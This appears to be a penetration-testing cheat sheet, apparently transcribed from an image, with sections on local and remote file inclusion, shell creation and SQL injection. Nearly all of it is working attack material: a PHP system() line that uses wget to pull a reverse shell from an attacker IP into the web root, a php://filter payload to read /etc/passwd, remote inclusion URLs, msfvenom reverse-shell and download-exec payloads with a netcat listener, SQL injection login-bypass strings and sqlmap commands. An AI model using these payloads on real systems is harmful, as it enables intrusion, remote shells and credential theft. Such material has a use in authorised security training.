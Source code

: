```
<? system('wget http://10.11.0.150/php-reverse-shell.php -O /var/www/shell.php');?>
Then navigate to
http://INSERTIPADDRESS/shell.php

# Bypass execution
http://INSERTIPADDRESS/index.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
base64 -d output of above

# Remote Command Execution
python -m SimpleHTTPServer 80
http://INSERTIPADDRESS/page=http://MYIPADDRESS/maliciousfile.php%00
http://INSERTIPADDRESS/page=http://MYIPADDRESS/maliciousfile.php

# Shell Creation

msfvenom -p php/download_exec URL=http://MYIPADDRESS/shell.elf -f raw -o shell.php
msfvenom -p linux/x86/shell_reverse_tcp LHOST=MYIPADDRESS LPORT=443 -f elf > shell.elf
python -m SimpleHTTPServer 80

nc -nvlp 443
```

#### SQL-Injection

```# Login Bypass
Username/Password: 
1' or '1'='1 
1' or 1=1 LIMIT 1;# 
'or 1=1/*
'or '1'='1' --
'or '1'='1' ({
'or '1'='1' /*

# Post
./sqlmap.py -r search-test.txt -p tfUPass

# Get
sqlmap -u "http://INSERTIPADDRESS/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://INSERTIPADDRESS --dbms=mysql --crawl=3
```

#### Sql-login-bypass

```
- Open Burp-suite
- Make and intercept a request
- Send to intruder
- Cluster attack.
- Paste in sqlibypass-list (https://bobloblaw.gitbooks.io/security/content/sql-injections.html)
- Attack
- Check for response length variation
```
